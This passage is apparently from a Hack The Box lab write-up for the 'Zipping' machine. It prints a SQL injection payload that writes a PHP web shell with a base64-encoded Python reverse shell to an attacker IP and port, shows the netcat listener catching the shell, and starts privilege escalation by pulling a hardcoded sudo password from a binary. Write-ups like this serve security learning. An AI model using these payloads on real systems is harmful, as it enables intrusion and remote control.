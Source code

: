 This uncovered two significant vulnerabilities that could be chained together. Leveraging the earlier discovered Local File Inclusion (LFI), it became possible to write files to the file system using the SQL shell. Subsequently, the LFI was employed to execute the written PHP code. Given the application's PHP runtime, the injected PHP code included a reverse connection mechanism to establish a connection back to the attacker's machine using Python3. To account for the trailing `'1` appended to the filename during the SQL injection, a null byte (`%00`) was introduced to eliminate this suffix.
```
select '<?php system(''echo ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNC41IjtleHBvcnQgUlBPUlQ9OTAwMTtweXRob24zIC1jICdpbXBvcnQgc3lzLHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KChvcy5nZXRlbnYoIlJIT1NUIiksaW50KG9zLmdldGVudigiUlBPUlQiKSkpKTtbb3MuZHVwMihzLmZpbGVubygpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJw==|base64 -d|bash''); ?>' INTO OUTFILE '/var/lib/mysql/shell.php%00';
```

Upon establishing a listener and navigating to `10.10.11.229/shop/index.php?page=/var/lib/mysql/shell`, a shell is successfully obtained. This demonstrates the successful exploitation of the combined vulnerabilities, allowing for the execution of arbitrary code on the target system.
```
┌──(kali㉿kali)-[~/htb/zipping]                                               
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.229] 48532
$ ls
ls    
assets    functions.php  index.php       product.php
cart.php  home.php       placeorder.php  products.php
```

## Root

My initial investigation focused on the user's `sudo` privileges. It appears that the user has permission to run `/usr/bin/stock` without entering a password:
```
rektsu@zipping:~$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Since `/usr/bin/stock` is a non-standard binary, my next step was to conduct basic reverse engineering. Attempting to run it prompts for a password, and using the `strings` command, I discovered the hardcoded password within the binary:
```
rektsu@zipping:~$  sudo /usr/bin/stock
Enter the password: 
Invalid password, please try again.


strings /usr/bin/stock
[snip]
St0ckM4nager
[snip]
```
